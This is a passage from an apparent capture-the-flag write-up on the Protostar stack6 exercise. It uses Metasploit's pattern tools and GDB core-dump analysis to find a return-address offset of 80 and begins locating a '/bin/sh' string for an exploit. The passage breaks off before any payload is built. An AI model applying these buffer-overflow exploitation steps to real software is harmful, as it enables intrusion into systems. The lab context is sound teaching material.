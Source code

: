 We'll simplify our lives a bit and use Metasploit's patterns to generate a
core dump and find our offset to the Return Address. From the core dump we'll
also be able to find the addresses of our libc functions.

On our host machine with Metasploit installed:

```sh
/opt/metasploit/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Let's copy and paste the pattern as input for stack6.

```sh
user@protostar:/opt/protostar/bin$ ./stack6
input path please: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
got path Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Segmentation fault (core dumped)
```

And now let's load the core dump

```
root@protostar:/opt/protostar/bin# gdb -q stack6 /tmp/core.11.stack6.2209
Reading symbols from /opt/protostar/bin/stack6...done.

warning: Can't read pathname for load map: Input/output error.
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
Core was generated by `./stack6'.
Program terminated with signal 11, Segmentation fault.
#0  0x37634136 in ?? ()
```

As we can see, EIP was set to **0x37634136**. On our host machine, let's copy
this value, and again, use Metasploit, this time to detect what the offset was.

```sh
/opt/metasploit/tools/exploit/pattern_offset.rb -q 0x37634136
[*] Exact match at offset 80
```

We now have the offset, 80. Let's go back to GDB with Stack6, and now find the
addresses we're missing.

Let's start with finding a shell string:

```
(gdb) x/4000s $esp
...
0xbffff9aa:	 "./stack6"
0xbffff9b3:	 "SHELL=/bin/sh"
0xbffff9c1:	 "TERM=xterm-256color"
0xbffff9d5:	 "SSH_CLIENT=192.168.56.1 59296 22"
0xbffff9f6:	 "SSH_TTY=/dev/pts/0"
0xbffffa09:	 "USER=user"
...
```
